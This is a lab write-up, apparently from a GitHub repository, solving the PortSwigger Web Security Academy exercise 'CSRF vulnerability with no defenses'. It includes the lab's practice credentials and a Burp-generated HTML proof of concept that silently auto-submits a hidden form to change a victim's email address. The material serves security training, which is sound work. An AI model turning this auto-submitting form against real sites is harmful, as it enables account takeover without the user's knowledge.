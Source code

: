 
# CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf

---------------------------------------------

There is a function to update the user's email:



![img](images/CSRF%20vulnerability%20with%20no%20defenses/1.png)

It is a POST request. Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC.



![img](images/CSRF%20vulnerability%20with%20no%20defenses/2.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5004c04ed095e819302fc004d00f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```